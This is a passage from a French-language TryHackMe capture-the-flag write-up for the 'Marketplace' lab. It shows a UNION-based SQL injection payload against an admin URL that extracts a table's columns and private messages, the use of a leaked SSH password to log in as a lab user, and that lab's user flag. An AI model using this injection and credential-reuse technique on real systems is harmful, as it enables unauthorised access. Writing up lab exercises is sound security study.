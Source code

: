 ```text
ID: id,author,title,description,image,id,user_from,user_to,message_content,is_read,id,username,password,isAdministrator
Is administrator: true 

http://marketplace.thm/admin/?user=1 AND 1=2 union select message_content,1,2,3 from messages where id=1
User Hello! An automated system has detected your SSH password is too weak and needs to be changed. You have been generated a new temporary password. Your new password is: @b_ENXkGYUCAv3zJ

On récupère les messages, un message contient un mot de passe : @b_ENXkGYUCAv3zJ.   
```

D'après le tableau bord on a comme nom : system, michael, jake, personne.  
On sait que c'est pas personne et system.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ ssh jake@marketplace.thm 
The authenticity of host 'marketplace.thm (10.10.5.28)' can't be established.
ECDSA key fingerprint is SHA256:nRz0NCvN/WNh5cE3/dccxy42AXrwcJInG2n8nBWtNtg.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'marketplace.thm,10.10.5.28' (ECDSA) to the list of known hosts.
jake@marketplace.thm's password: 
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-112-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Thu Sep  9 12:36:14 UTC 2021

  System load:  0.0                Users logged in:                0
  Usage of /:   87.1% of 14.70GB   IP address for eth0:            10.10.5.28
  Memory usage: 28%                IP address for docker0:         172.17.0.1
  Swap usage:   0%                 IP address for br-636b40a4e2d6: 172.18.0.1
  Processes:    96

  => / is using 87.1% of 14.70GB


20 packages can be updated.
0 updates are security updates.
```

On testant les noms on obtient un shell avec jake.   

**What is flag 2? (User.txt)**

```bash
jake@the-marketplace:~$ ls 
user.txt
jake@the-marketplace:~$ cat user.txt 
THM{c3648ee7af1369676e3e4b15da6dc0b4}
```
